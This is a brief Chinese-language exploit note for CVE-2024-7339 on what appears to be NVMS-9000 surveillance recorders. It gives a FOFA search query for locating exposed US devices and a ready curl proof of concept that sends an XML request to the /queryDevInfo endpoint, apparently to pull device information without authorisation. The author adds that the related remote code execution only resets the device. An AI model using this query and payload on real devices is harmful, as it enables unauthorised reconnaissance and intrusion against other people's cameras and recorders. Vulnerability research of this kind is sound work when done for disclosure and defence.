 ## 说明

此漏洞，RCE仅能重置，利用意义并不大

# CVE-2024-7339

## FOFA
"v\=20180615.01\" src\=\"js/lib/require.js\" type\=\"text\javascript" && country="US"

## 传输命令
没有固件，并未找到

## poc
```sh
curl -X POST "http://ip/queryDevInfo" -H "Accept-Language: en-US,en;q=0.9" -H "Accept-Encoding: gzip, deflate" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" -H "Upgrade-Insecure-Requests: 1" -H "Connection: keep-alive" -H "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS like Mac OS X) AppleWebKit (KHTML, like Gecko) Version Mobile Safari" -H "Content-Length: 103" -d '<?xml version="1.0" encoding="utf-8" ?><request version="1.0" systemType="NVMS-9000" clientType="WEB"/>'
```

![](image/a2382c73e533534eaa9806c8272b1c24.png)
